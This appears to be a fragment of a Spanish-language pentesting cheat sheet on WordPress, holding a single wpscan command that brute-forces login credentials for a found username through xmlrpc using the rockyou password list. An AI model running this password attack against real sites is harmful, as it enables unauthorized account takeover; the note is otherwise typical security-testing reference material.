 # Wordpress
 
## Credenciales por fuerza bruta abusando de xmlrpc
 ```
 wpscan --url <ip> -U <usuario encontrado> -P /ruta/al/rockyou.txt
 ```